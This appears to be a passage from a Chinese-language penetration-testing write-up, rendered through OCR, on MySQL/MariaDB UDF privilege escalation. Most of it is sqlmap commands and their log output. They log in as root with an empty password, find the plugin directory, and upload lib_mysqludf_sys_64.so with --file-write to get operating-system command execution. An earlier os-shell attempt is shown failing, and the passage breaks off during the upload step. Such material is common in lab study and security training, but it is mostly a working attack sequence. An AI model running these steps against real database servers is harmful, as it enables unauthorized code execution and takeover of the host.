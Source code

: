 ```
[11:53:50] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> whoami
do you want to retrieve the command standard output? [Y/n/a]

No output
os-shell>
```



没有得到执行结果，查看func表也没有udf记录，未找到原因。

\####半自动化

1. 获取plugin目录

   ```
   python3 sqlmap.py -d "mysql://root:@172.20.10.9:3306/mysql" --sql-shell
           ___
          __H__
    ___ ___[']_____ ___ ___  {1.4.2.24#dev}
   |_ -| . [']     | .'| . |
   |___|_  [)]_|_|_|__,|  _|
         |_|V...       |_|   http://sqlmap.org
   
   [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
   
   [*] starting @ 13:21:33 /2020-02-10/
   
   [13:21:34] [INFO] connection to MySQL server '172.20.10.9:3306' established
   [13:21:34] [INFO] testing MySQL
   [13:21:34] [INFO] resumed: [['1']]...
   [13:21:34] [INFO] confirming MySQL
   [13:21:34] [INFO] resumed: [['1']]...
   [13:21:34] [INFO] the back-end DBMS is MySQL
   back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
   [13:21:34] [INFO] calling MySQL shell. To quit type 'x' or 'q' and press ENTER
   sql-shell> select @@plugin_dir;
   [13:22:06] [INFO] fetching SQL SELECT statement query output: 'select @@plugin_dir'
   select @@plugin_dir [1]:
   [*] /usr/lib/x86_64-linux-gnu/mariadb18/plugin/
   
   sql-shell>
   ```

   

   得到plugin目录为`/usr/lib/x86_64-linux-gnu/mariadb18/plugin/`。

2. 上传lib_mysqludf_sys到plugin目录

   ```
   python3 sqlmap.py -d "mysql://root:@172.20.10.9:3306/mysql" --file-write=/Users/simon/Downloads/lib_mysqludf_sys_64.so --file-dest=/usr/lib/x86_64-linux-gnu/mariadb18/plugin/lib_mysqludf_sys_64.so
           ___
          __H__
    ___ ___[.]_____ ___ ___  {1.4.2.24#dev}
   |_ -| . ["]     | .'| . |
   |___|_  [(]_|_|_|__,|  _|
         |_|V...       |_|   http://sqlmap.org
   
   [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
   
   [*] starting @ 13:28:35 /2020-02-10/
   ```